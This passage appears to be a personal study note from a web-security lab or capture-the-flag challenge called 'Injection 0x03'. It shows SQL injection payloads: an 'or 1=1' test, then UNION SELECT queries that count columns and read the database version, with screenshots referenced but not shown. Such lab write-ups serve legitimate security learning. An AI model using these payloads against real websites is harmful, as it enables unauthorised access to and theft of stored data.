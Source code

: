 
## Injection 0x03 [Challenge]

### Check if the page has SQLi vuln  : 

`x' or 1=1#`

- if *yes* then it will return all the record and render it on the page.

![[Pasted image 20250805201957.png]]

![[Pasted image 20250805202040.png]]

### Data Exfiltration using `UNION` : 

1. Checking.

	- Command used : `Tanjyoubi Sushi Rack' union select null,null,null,null#`

	- Output : 

		![[Pasted image 20250805202958.png]]

2. Database Version : 

	- Command Used : `Tanjyoubi Sushi Rack' union select null,null,null,version()#`

	- Output : 

		![[Pasted image 20250805203236.png]]


